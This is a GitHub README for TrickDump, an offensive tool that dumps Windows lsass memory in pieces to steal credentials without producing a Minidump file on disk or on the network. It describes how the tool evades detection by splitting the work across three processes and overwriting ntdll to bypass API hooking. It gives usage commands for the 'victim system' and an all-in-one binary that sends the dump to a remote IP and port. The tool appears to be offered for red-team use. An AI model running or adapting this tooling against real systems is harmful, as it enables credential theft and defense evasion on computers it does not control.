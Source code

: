 # TrickDump

TrickDump dumps the lsass process without creating a Minidump file, generating instead 3 JSON and 1 ZIP file with the memory region dumps. In three steps:

- **Lock**: Get OS information using RtlGetVersion.

- **Shock**: Get SeDebugPrivilege privilege with NtOpenProcessToken and NtAdjustPrivilegeToken, open a handle with NtGetNextProcess and NtQueryInformationProcess and then get modules information using NtQueryInformationProcess and NtReadVirtualMemory.

- **Barrel**: Get SeDebugPrivilege privilege, open a handle and then get information and dump memory regions using NtQueryVirtualMemory and NtReadVirtualMemory. 


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/trickdump.drawio.png)


In the attack system, use the *create_dump.py* script to generate the Minidump file:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE] 
```

The benefits of this technique are:

- There is never a valid Minidump file in disk, memory or the network traffic.

- There is not a single program or process executing the whole attack but three separate ones, which may raise less flags.
  - If you already have information about the OS of the target machine you can skip the first step ("Lock").

- The programs only use NTAPIS (this project is a variant of [NativeDump](https://github.com/ricardojoserf/NativeDump)).

- It does not use OpenProcess or NtOpenProcess to get the lsass process handle with the *PROCESS_VM_OPERATION* and *PROCESS_VM_WRITE* access rights.
    
- Each program allows to overwrite the ntdll.dll library ".text" section to bypass API hooking:
  - "disk": Using a DLL already on disk. If a second argument is not used the path is "C:\Windows\System32\ntdll.dll".
  - "knowndlls": Using the KnownDlls folder.
  - "debugproc": Using a process created in debug mode. If a second argument is not used the process is "c:\windows\system32\calc.exe".

It comes in three flavours:

- .NET: The main branch
- Python: The [python-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/python-flavour)
- Golang: The [golang-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/golang-flavour)


It will not work if PPL is enabled, ~~the PEB structure is unreadable~~ or the binaries are not compiled as 64-bit. **Update**: Now it is possible to execute the programs without reading the PEB, check the [peb-unreadable branch](https://github.com/ricardojoserf/TrickDump/tree/peb-unreadable) :)



-------------------------

## Usage

The programs are executed in the victim system, creating three JSON files (with memory regions information) and one zip file (with each memory region dump).

```
Lock.exe [disk/knowndlls/debugproc]
```

```
Shock.exe [disk/knowndlls/debugproc]
```

```
Barrel.exe [disk/knowndlls/debugproc]
```
You can execute the programs directly without overwriting the ntdll.dll library:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_1.png)

Or use one of the three different overwrite techniques:

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_2.png)

Then the Minidump file is generated:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_3.png)

-------------------------

## All in one

If you prefer to execute only one binary, Trick.exe generates a ZIP file containing the 3 JSON files and the ZIP file with the memory regions:

```
Trick.exe [disk/knowndlls/debugproc] [IP_ADDRESS] [PORT]
```

You can create the ZIP file locally, optionally using a Ntdll overwrite method:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_5.png)

Or send it to a remote port using the second and third parameter as the IP address and the port:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_6.png)

In both cases you get a ZIP file like this, unzip it and create the Minidump file:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_7.png)
